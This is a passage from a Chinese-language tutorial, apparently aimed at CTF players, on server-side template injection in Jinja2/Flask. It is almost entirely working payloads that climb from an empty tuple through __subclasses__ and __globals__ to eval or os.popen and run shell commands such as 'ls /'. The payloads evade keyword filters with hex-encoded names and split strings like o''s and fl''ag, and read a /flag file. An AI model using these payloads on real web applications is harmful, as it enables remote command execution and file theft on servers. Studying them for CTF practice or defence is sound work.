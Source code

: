 等同于：

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}


```

### 利用 Hex 编码绕过关键字

和上面那个一样，只不过将 Unicode 编码换成了 Hex 编码，适用于过滤了 “u” 的情况。

我们可以利用 hex 编码的方法，绕过关键字过滤，例如：

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x65\x76\x61\x6c']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['\x6f\x73'].popen('\x6c\x73\x20\x2f').read()}}


```

等同于：

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}


```

### 利用引号绕过

我们可以利用引号来绕过对关键字的过滤。例如，过滤了 flag，那么我们可以用 `fl""ag` 或 `fl''ag` 的形式来绕过：

```
[].__class__.__base__.__subclasses__()[40]("/fl""ag").read()


```

再如：

```
().__class__.__base__.__subclasses__()[77].__init__.__globals__['o''s'].popen('ls').read()

{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__buil''tins__']['eval']('__import__("os").popen("ls /").read()')}}


```
